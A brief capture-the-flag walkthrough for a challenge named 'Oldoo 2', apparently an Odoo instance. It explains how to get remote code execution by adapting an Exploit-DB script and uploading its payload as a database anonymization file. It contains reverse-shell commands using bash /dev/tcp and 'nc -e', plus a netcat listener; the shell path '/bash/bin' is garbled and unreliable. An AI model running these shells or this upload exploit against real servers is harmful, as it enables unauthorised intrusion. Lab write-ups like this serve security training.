 # Oldoo 2

The player can get the business management software version in the setting and search available vulnerability on Google.
The player will get a result lead to this website [https://www.exploit-db.com/exploits/44064].
Based on the description, the player can:

1. Download the python script, the player can change the line `return (os.system, (("bash -i >& /dev/tcp/127.0.0.1/8000 0>&1"),))` to `return (os.system, (("nc [your ip address] [port] -e /bash/bin"),))`
2. Run the script to create a payload
3. Go to Settings and check the Database anonymization section
4. Open a terminal and run the command `nc -nlvp [port]`
5. Select the Anonymize database
6. Upload the payload as Anonymization file
7. Click on Reverse the Database Anonymization

The player should get the access to the server now in the terminal.
Using the command `ls`, the user can see the user_flag.txt and view it.
